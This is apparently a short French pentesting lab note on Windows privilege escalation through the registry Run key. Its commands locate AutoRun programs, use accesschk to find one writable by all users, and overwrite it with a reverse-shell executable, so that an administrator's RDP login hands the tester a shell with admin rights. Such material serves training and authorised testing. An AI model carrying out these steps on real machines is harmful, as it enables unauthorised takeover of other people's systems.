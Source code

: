# Registre 

## Exécutions automatiques
Interrogez le registre pour les exécutables AutoRun:
```sh
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

À l'aide `d'accesschk.exe`, notez que l'un des exécutables AutoRun est accessible en écriture par tout le monde:

```sh
accesschk.exe /accepteula -wvu "{path_of_My_Program}\file.exe"
# check: RW BUILTIN\Users
#			FILE_ALL_ACCESS
```

Copiez l'exécutable rshell.exe que vous avez créé et remplacez l'exécutable AutoRun
```sh
copy C:\temp\shell.exe "{path_of_My_Program}\file.exe" /Y
```

Démarrez un écouteur sur Kali puis redémarrez la VM Windows.
Ouvrez une nouvelle session RDP pour déclencher un shell inversé s'exécutant avec des privilèges d'administrateur.
dans un engagement réel, vous devrez attendre qu'un administrateur se connecte lui-même !  

